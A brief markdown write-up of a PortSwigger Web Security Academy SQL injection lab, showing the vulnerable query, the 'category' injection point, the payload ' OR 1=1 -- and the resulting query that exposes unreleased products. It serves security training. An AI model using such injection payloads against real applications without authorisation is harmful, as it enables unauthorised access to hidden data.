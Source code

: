 # 🧪 Lab details:

**Platform**: PortSwigger Web Security Academy  
**Category**: [SQL Injection]  
**Lab Link**: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data]  
**Difficulty**: [Apprentice]

---

## 🎯 Objective

perform a SQL injection attack that causes the application to display one or more unreleased products.

---

## 🧠 Original SQL Query 


SELECT * FROM products WHERE category = 'Gifts' AND released = 1

---

## 💣 Injection Point

Parameter  : `category`
Method     : GET or POST
Location   : URL / Form / JSON / Cookie

---

## 🧪 Payload Used

' OR 1=1 --

---

## ✅ Resulting SQL Query

SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1





